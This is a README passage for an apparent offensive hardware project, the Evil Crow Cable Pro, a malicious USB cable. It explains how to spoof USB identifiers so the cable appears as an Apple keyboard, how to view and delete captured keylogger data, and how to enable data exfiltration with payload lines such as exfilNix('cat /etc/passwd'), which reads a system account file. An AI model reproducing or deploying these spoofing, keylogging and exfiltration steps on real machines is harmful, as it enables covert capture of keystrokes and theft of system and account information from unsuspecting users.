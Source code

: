 ![Config](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/config.png)

## Change USB configuration

Evil Crow Cable Pro is configured with a default VID/PID/Manufacturer/Product. You can change the USB configuration. Set CHANGE_USB_CONFIG true to change Vendor ID, Product ID, Manufacturer and Product. (example: Apple keyboard):

![USBConfig](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/usbconfig.png)

If you enable CHANGE_USB_CONFIG to true, Evil Crow Cable Pro turns into an Apple keyboard.

![USBDmesg](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/usb-dmesg.png)

## Keylogger viewlog

Configure #define KEYLOGGER_VIEWLOG true in config.h. Flash the firmware in Evil Crow Cable Pro, open serial monitor and wait 10 seconds. 

![KeyloggerView](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/keyloggerview.png)

## Keylogger deletelog

Configure #define KEYLOGGER_DELETELOG true in config.h. Flash the firmware in Evil Crow Cable Pro, open serial monitor and wait 5 seconds. 

![KeyloggerDelete](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/keyloggerdelete.png)

## Data exfiltration

Set #define EXFIL true in config.h to enable data exfiltration.
Use exfilWin(command), exfilNix(command) or exfiMac(command) in payload.h. For example:

* exfilWin("systeminfo");
* exfilNix("cat /etc/passwd");
* exfilMac("whoami");

![ExfilPayload](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/exfilpayload.png)

## Data exfiltration viewlog

Configure #define EXFIL_VIEWLOG true in config.h. Flash the firmware in Evil Crow Cable Pro, open serial monitor and wait 10 seconds. 

Example:

delay(2000);
exfilNix("whoami");
delay(3000);
exfilNix("cat /etc/passwd");
